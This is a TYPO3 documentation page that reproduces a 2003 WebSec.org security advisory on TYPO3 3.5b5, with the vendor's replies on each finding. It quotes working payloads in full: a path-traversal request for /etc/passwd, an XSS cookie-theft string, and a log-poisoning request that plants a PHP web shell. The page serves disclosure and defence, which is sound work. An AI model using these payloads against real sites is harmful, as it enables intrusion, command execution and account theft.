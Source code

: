 ﻿

.. ==================================================
.. FOR YOUR INFORMATION
.. --------------------------------------------------
.. -*- coding: utf-8 -*- with BOM.

.. ==================================================
.. DEFINE SOME TEXTROLES
.. --------------------------------------------------
.. role::   underline
.. role::   typoscript(code)
.. role::   ts(typoscript)
   :class:  typoscript
.. role::   php(code)


Security reports
^^^^^^^^^^^^^^^^


www.WebSec.org security report on TYPO3 3.5b5, january 2003
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""

January 2002 Martin Eiszner from WebSec.org informed us of a list of
security problems in TYPO3 version 3.5b5. The issues were corrected in
version 3.5.0.

The report is posted here with permission from Martin Eiszner with
Kasper Skårhøjs comments in red.

::

   >2002@WebSec.org/Martin Eiszner
   >
   >=====================
   >Security REPORT TYPO3
   >=====================
   >
   >
   >Product: Typo3 (Version 3.5b5 / Earlier versions are possibly vulnerable
   >too)
   >
   >Vendor: Typo3 (http://www.typo3.com)
   >Vendor-Status: kasper@typo3.com informed 
   >Vendor-Patch: --- 
   >
   >Local: NO
   >Remote: YES
   >
   >Vulnerabilities: 
   >-path-disclosure
   >-proof of file-existense
   >-arbitrary file retrieval 
   >-arbitrary command execution 
   >-CrossSiteScripting / privilege escalation / cookie-theft 
   >-install/config files and scripts within webroot
   >
   >Severity: MEDIUM to HIGH
   >
   >Tested Plattforms: Linux / Slackware i686 / Apache 1.3.23 / PHP 4.1.2
   > 
   >
   >============
   >Introduction
   >============
   >
   >removed/vendor
   >
   >
   >=====================
   >Vulnerability Details 
   >=====================
   >
   >
   >0) CLIENT-SIDE DATA-OBFUSCATION 
   >
   >form-fields are obfuscated using client-side java-script routines.
   >after the fields are joined a java-script creates MD5-hashes and 
   >submits the form. 
   >
   >examples: index.php (account-data), showpic.php(name-checksum)
   >
   >attached perl-scripts (typo.pl/showpic.pl) demonstrate how to circumvent 
   >this protection. 
   >
   
   index.php:
   The point of the MD5 hashing of passwords is to not transmit the password 
   in cleartext. That is working as it should: For each login a new random 
   hash is used to "encrypt" the sending of the password. This means that the 
   "userident" string is never the same even though the same password is sent. 
   Your proof-of-concept script only emulates the login-form allowing for making 
   looped login-attempts. Isn't that correct? Pls. comment.
   NOT FIXED - It works as intended and higher security must - as far as I can 
   see - be obtained by application of other external methods in addition. See
    http://typo3.org/doc+M561953c3fc3.0.html
   
   showpic.php/thumbs.php:
   In these scripts the point of MD5-hashes is simply to make it hard for people
    to spontaneously change a parameter to the script. This is made difficult 
   because you'll need computing of the MD5-hash. So this is not meant to be 
   totally impossible, but just plain hard preventing casual users from trying. 
   FIX: I have included a server-known key in the MD5 hash so 
   it can't be reconstructed.
   
   
   
   
   >1) PATH-DISCLOSURE 
   >
   >several test-, class- and library-scripts can be found within webroot.
   >some of them can be forced to produce runtime errors and output their 
   >physical path.
   >
   >example: /fileadmin/include_test.php
   
   This script exists only with the testsite. This script is therefore not 
   a part of the TYPO3 source code and the responsibility to remove this 
   script - and further make sure that such scripts does not in general 
   exist! - lies on the developer/implementator of a TYPO3 solution.
   NOT FIXED - the testsite-package will still ship with this script since 
   it's not a part of the TYPO3 source code as such. Users of the 
   testsite-package are responsible of removing this script themselves if 
   it disturbs them.
   
   
   >2) PROOF OF FILE-EXISTENZ 
   >
   >"showpic.php" and "thumbs.php" allow an attacker to check the existense of 
   >arbitrary files.
   >
   >combined with file-enumeration methods it is possible to reconstruct parts 
   >of the directory- and filesystem - structure.
   >
   >example on howto check for existing files with attached perl-script
   >"showpic.pl":
   >---*---
   >sh> showpic.pl localhost '../../../../../../../../../../etc/hosts'
   >../../../../../../../../../../etc/hosts exists
   >---*---
   
   
   FIXED.
   
   
   >3) CROSS SITE SCRIPTING / COOKIE-THEFT 
   >
   >all system and login-errors are saved in the typo3-database.
   >administrators can view all the erroneous data.
   >
   >since this data is not being checked for XSS-content it is possible to
   >include 
   >client-side script(java-script)-tags in these entries.
   >
   >every time the admins view their logs these scripts will be run on the
   >admins 
   >web-browser which leads to a typical XSS-bug. 
   >
   >thus making it possible to steal the admins-cookies or let him open a new 
   >user-account wihout his knowledge.
   > 
   >example with the attached "typo.pl" - perlscript:
   >
   >---*---
   >sh> typo.pl localhost '><script>alert(document.cookie)</script><:aaa'
   >---*---
   >
   >viewing the logfiles will execute the script.
   
   
   FIXED.
   
   
   >4) ARBITRARY FILE-RETRIEVAL 
   >
   >the "dev/translations.php" - script does not check the 
   >ONLY-parameter for malicious values.
   >
   >a relative path combined with a Nullbyte lead to the inclusion of the 
   >given file.
   >
   >example http-request:
   >---*---
   >GET
   >http://host/dev/translations.php?ONLY=%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd%00 
   >---*---
   >
   >5) ARBITRARY COMMAND EXECUTION 
   >
   >extends vulnerability number 4):
   > 
   >if the included file contains php-source code it will be executed.
   >thus allowing an attacker to execute operating-system commands and 
   >at long sight escalate his privileges.
   >
   >example:
   >---*---
   >
   >a file for placing our malicious php-source is needed.
   >if there is no file we have write-access we still can use the
   >websevers-logfiles.
   >
   >the following http-request:
   >---cut---
   >http://localhost/<%3f %60echo %27<%3fpassthru(%5c%24c)%3f>%27 >>
   >./x.php%60 %3f>
   >---cut---
   >
   >creates this entry:
   >
   >---cut---
   >[Tue Jan 14 19:42:53 2003] [error] [client 127.0.0.1] File does not exist:
   >/apachepath/apache/htdocs/<? `echo '<?passthru(\$c)?>' >> ./x.php` ?>
   >---cut---
   >
   >in a typicall apache - error_log file.
   >
   >using the method discussed under 4) the following http-request: 
   >
   >---cut---
   >http://localhost/typo3/typo3/dev/translations.php?ONLY=relative_apache_path/apache/logs/error_log%00'
   >---cut---
   >
   >will include the apach error_log in our output and execute our
   >php-commands.
   >as a result we will find x.php in our "/dev" directory.
   > 
   >x.php:
   >---cut---
   ><?passthru($c)?>
   >---cut---
   >
   >---*---
   >
   
   
   4+5 is FIXED.
   NOTE: The dev/ folder contains scripts which are normally disabled by 
   a die() function call since they are used in special cases. The dev/ 
   folder scripts are not considered a real part of the TYPO3 source and 
   can be removed without any consequenses if a user wants to.
   
   
   
   >6) SCRIPTS AND DIRECTORIES IN WEBROOT 
   >
   >a couple of scripts, libraries, files and directories can be found within
   >typo3s 
   >webroot. 
   >
   >"/install" is improper protected and vulnerable to brute-force attacks.
   
   The file install/index.php can be protected by a die() function call. 
   Developers are always encouraged to keep the script disabled during the 
   long periods where it is not used. However failure to do so may impose 
   a security hole. In particular if the default Install Tool Password is 
   not changed. 
   The security problem regards only careless use and warnings are plentyful 
   inside the Install Tool! However if any security holes in the PHP-scripts 
   exists that is a more interesting matter. I don't see any.
   Paranoid users can safely remove this directory if they don't need the 
   install tool or alternatively insert a .htaccess file if they like.
   NOT FIXED - responsibility is the on the user.
   
   >"/fileadmin" directory reveals log-files and demo-scripts
   
   Depends on implementation. The "fileadmin/" directory is at the users 
   disposal and not a part of TYPO3's source code. 
   True enough, the testsite-package includes both logfiles and scripts there.
   NOT FIXED - responsibility is the on the user.
   
   
   >"/typo3conf" directory contains the localconf.php,database.sql and other
   >sensitive files
   
   localconf.php file is by default placed here. That is correct. The 
   directory must also be writeenabled according to TYPO3's requirements
    for a correct installation.
   Paranoid users can always make a reduced localconf.php file which 
   includes another "outside-of-webroot" file if they like:
   
   <?
   include("/outside_of_webroot/real_localconf.php");
   ?>
   
   As for the sql-file found there it's not a requirement of the source 
   code and in this analysis it stems from the testsite-package. 
   NOT FIXED - responsibility is on the user.
   
   
   >=======
   >Remarks
   >=======
   >
   >the serious vulnerabilities rely on the "/dev" (developer?) - directory.
   >scripts within this directory can be found in many/most
   >production-environments!
   
   It's officially recommended to just remove this directory then.
   
   
   >====================
   >Recommended Hotfixes
   >====================
   >
   >1) remove "/install" directory
   >2) remove "/dev" directory
   
   OK
   
   >2) Choose strong administrator-passwords
   
   Always do. Also see this URL for further security actions you can take:
   http://typo3.org/doc+M561953c3fc3.0.html
   
   
   >3) showpic.php and thumbs.php must be patched.
   
   FIXED.
   
   >3) remove all demo-directories and protect "/fileadmin" and "/typo3conf"
   
   Both directories are not part of the TYPO3 source code but relates to 
   the specific implementation. Responsibility therefore lies on the 
   developers implementation of a site with TYPO3. See above comments for 
   advises on these issues.
   
   
   >EOF Martin Eiszner / @2002WebSec.org
   >
   >
   >=======
   >Contact
   >=======
   >
   >WebSec.org / Martin Eiszner
   >Gurkgasse 49/Top14
   >1140 Vienna
   >
   >Austria / EUROPE
   >
   >mei@websec.org
   >http://www.websec.org
   >

